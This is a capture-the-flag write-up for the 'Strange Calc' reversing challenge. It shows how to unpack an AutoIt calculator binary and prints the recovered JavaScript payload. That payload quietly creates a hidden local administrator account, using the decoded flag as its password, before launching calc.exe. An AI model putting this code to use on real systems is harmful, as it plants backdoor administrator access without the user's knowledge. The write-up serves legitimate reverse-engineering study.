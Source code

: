# Strange Calc

## Description

<small>Author: @JohnHammond</small><br><br>I got this new calculator app from my friend! But it's really weird, for some  reason it needs admin permissions to run?? <br><br> <b>NOTE: Archive password is <code>strange_calc</code></b> <br><br> <b>Download the file(s) below.</b><br>


## Files

* [calc.zip](<files/calc.zip>)


## Solution

This file is an Auto-It binary containing a script that has an VBS Encrypted javascript file. The javascript decodes the flag with some minor modifications.

Getting to the javascript is relatively simple with refinery:
```
emit calc.exe |r.a3x |r.carve b64 -lt1 |r.b64 |r.wshenc |r.ppjscript
```

```javascript
function a(b) {
    var c = "",
        d = b.split("\n");
    for (var e = 0; e < d.length; e++) {
        var f = d[e].replace(/^\s+|\s+$/g, '');
        if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "") continue;
        var g = (f.charCodeAt(0) - 32) & 63;
        for (var h = 1; h < f.length; h += 4) {
            if (h + 3 >= f.length) break;
            var i = (f.charCodeAt(h) - 32) & 63,
                j = (f.charCodeAt(h + 1) - 32) & 63,
                k = (f.charCodeAt(h + 2) - 32) & 63,
                l = (f.charCodeAt(h + 3) - 32) & 63;
            c += String.fromCharCode((i << 2) | (j >> 4));
            if (h + 2 < f.length - 1) c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
            if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l)
        }
    }
    return c.substring(0, g)
}
var m = "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
var n = a(m);
var o = ["net user LocalAdministrator " + n + " /add", "net localgroup administrators LocalAdministrator /add", "calc.exe"];
var p = new ActiveXObject('WScript.Shell');
for (var q = 0; q < o.length - 1; q++) {
    p.Run(o[q], 0, false)
}
p.Run(o[2], 1, false);
```


Some simple fixes to the script and you have a script that yields the flag:
```javascript
function a(b) {
    var c = "",
        d = b.split("\n");
    for (var e = 0; e < d.length; e++) {
        var f = d[e].replace(/^\s+|\s+$/g, '');
        if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "") continue;
        var g = (f.charCodeAt(0) - 32) & 63;
        for (var h = 1; h < f.length; h += 4) {
            if (h + 3 >= f.length) break;
            var i = (f.charCodeAt(h) - 32) & 63,
                j = (f.charCodeAt(h + 1) - 32) & 63,
                k = (f.charCodeAt(h + 2) - 32) & 63,
                l = (f.charCodeAt(h + 3) - 32) & 63;
            c += String.fromCharCode((i << 2) | (j >> 4));
            if (h + 2 < f.length - 1) c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
            if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l)
        }
    }
    return c.substring(0, g)
}
var m = "G9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*";
var n = a(m);
```
